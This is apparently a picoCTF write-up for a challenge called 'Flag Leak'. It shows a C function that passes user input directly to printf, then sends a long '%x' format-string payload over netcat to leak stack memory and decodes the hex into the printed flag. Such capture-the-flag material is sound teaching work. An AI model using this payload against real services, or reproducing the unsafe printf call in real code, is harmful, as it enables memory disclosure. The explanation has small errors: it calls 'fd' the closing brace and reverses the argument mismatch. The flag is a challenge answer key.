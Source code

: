# Flag Leak - 300 pts

### Key points

- Format strings

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#the-flag)

---

## Overview

### Description

> I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using:

```console
$ nc saturn.picoctf.net 64529
Tell me a story and then I'll tell you one >> picopicopico
Here's a story -
picopicopico
```

---

## Solution

Here's the source code for the `vuln()` function:

```C
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

The program reads a user input and simply prints it back out, but using [`printf()`](https://documentation.help/C-Cpp-Reference/printf.html). This is vulnerable to a format string exploit.

An example of a proper use of `printf()` is:

```C
printf("This is the flag: %s", "picoCTF{n0p3}");
>>> This is the flag: picoCTF{n0p3}
```

Basically, `printf()` substitutes format flags (indicated by a `%` sign) in a base string with the corresponding arguments. Here, `printf()` is not supplied any arguments; it only prints our output. What if we put format flags in our input?

When more arguments than format flags are provided, `printf()` may start reading or even writing to the stack.

Let's enter a payload of a bunch of `%x` format flags to leak the stack in hexadecimal.

```console
$ nc saturn.picoctf.net 64529
Tell me a story and then I'll tell you one >> %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Here's a story -
ff816660ff8166808049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578252578256f6369707b4654436b34334c5f676e3167346c466666305f3474535f635f6b63343965327d643365fbad2000a16231000f7fd8990804c00080494100804c000ff81674880494182ff8167f4ff8168000ff81676000f7dceee5
```

`6f636970` is `pico` in hex (little endian), and `fd` is our closing brace `'}'`. Make sure to include 3 characters after `7d` because of endianness. Let's grab that chunk and convert it:

```
6f6369707b4654436b34334c5f676e3167346c466666305f3474535f635f6b63343965327d643365
```

---

## Flag:

> `picoCTF{l34k1ng_Fl4g_0ff_St4ck_c2e94e3d}`
